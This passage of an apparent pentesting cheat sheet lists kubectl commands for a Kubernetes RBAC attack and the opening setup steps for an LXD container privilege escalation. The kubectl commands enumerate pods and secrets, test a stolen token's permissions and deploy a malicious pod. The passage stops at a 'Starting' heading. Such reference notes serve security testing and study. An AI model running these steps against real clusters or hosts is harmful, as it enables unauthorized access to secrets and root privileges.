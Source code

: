 ### API RBAC Attack

```c
$ kubectl get namespaces
$ kubectl get pods --all-namespaces -o wide
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pod <POD> -n <NAMESPACE>
$ kubectl -n <NAMESPACE> --token=<TOKEN> auth can-i --list
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets/<SECRET> -n <NAMESPACE>
$ kubectl --token=<TOKEN> cluster-info
$ kubectl --token=<TOKEN> auth can-i create pod
$ kubectl create -f <BADPOD>.yaml --token=<TOKEN>
```

## LXD

> https://github.com/saghul/lxd-alpine-builder

### Privilege Escalation

```c
$ sudo ./build-alpine
```

or

```c
$ sudo ./build-alpine -a i686
```

### Configuration

```c
$ lxd init
```

### Settings

```c
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (dir, lvm, ceph, btrfs) [default=btrfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

### Starting
